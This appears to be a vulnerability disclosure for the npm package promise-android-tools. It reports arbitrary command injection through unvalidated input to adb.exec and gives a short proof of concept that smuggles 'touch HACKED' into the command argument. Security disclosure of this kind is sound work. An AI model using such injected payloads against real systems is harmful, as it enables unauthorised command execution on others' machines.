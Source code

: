 # :bug: Description

The `promise-android-tools` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const { Adb, Fastboot } = require("promise-android-tools");
const adb = new Adb();
adb.exec('t; touch HACKED; #');

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i promise-android-tools # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
